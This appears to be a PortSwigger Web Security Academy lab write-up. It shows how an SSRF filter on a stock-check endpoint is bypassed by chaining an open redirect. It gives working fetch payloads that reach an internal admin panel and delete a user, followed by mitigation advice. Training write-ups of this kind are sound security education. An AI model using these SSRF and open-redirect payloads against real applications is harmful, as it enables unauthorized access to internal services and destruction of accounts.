


# PortSwigger Lab: SSRF with filter bypass via open redirection vulnerability

## Lab Description
- **Platform:** PortSwigger Web Security Academy
- **Difficulty:** Practitioner
- **Objective:** Change the stock check URL to access the admin interface at `http://192.168.0.12:8080/admin` and delete the user `carlos`. The stock checker has been restricted to only access the local application, so an open redirect vulnerability must be found first.

## Vulnerability Analysis
The application's stock check functionality (`/product/stock`) is vulnerable to SSRF but implements a filter that restricts requests to the local application's domain. 

However, the application also contains an open redirection vulnerability in the "Next product" functionality (`/product/nextProduct?path=`). The `path` parameter allows an attacker to redirect the user to an arbitrary URL.

By chaining these two vulnerabilities, we can bypass the SSRF filter. The filter sees a request to a relative path on the trusted domain and allows it. The server then processes the request, triggers the open redirect, and follows it to the internal network.

## Exploitation Steps
1. Attempted to use a standard SSRF payload (`stockApi=http://192.168.0.12:8080/admin`), but the server blocked it with the message: `"Invalid external stock check url 'Invalid URL'"`.
2. Identified the open redirect vulnerability in the `/product/nextProduct` endpoint, which takes a `path` parameter.
3. Crafted a payload that uses a relative path for the `stockApi` to bypass the filter, while injecting the internal IP into the `path` parameter of the redirect. The `&` character was URL-encoded as `%26` to prevent it from splitting the parameter:
   ```javascript
   fetch('/product/stock', {
     method: 'POST',
     headers: {'Content-Type': 'application/x-www-form-urlencoded'},
     body: 'stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin'
   })
   .then(r => r.text())
   .then(t => console.log(t));
   ```
4. The server followed the redirect and returned the HTML of the admin panel.
5. Sent the final payload to delete the user `carlos`:
   ```javascript
   fetch('/product/stock', {
     method: 'POST',
     headers: {'Content-Type': 'application/x-www-form-urlencoded'},
     body: 'stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin/delete?username=carlos'
   })
   .then(r => r.text())
   .then(t => console.log(t));
   ```
6. The user was deleted, and the lab was solved.

## Evidence

### Accessing Admin Panel via Open Redirect (Bypass)


### Lab Solved


## Mitigation
To prevent this vulnerability, the application must address both issues.
1. **Fix Open Redirect:** Validate the `path` parameter and only allow redirects to internal, trusted pages. Do not allow arbitrary URLs.
2. **Strong SSRF Protection:** Use an allowlist of permitted domains for the stock check feature. Do not rely solely on validating that the URL starts with the local domain, as open redirects can bypass this.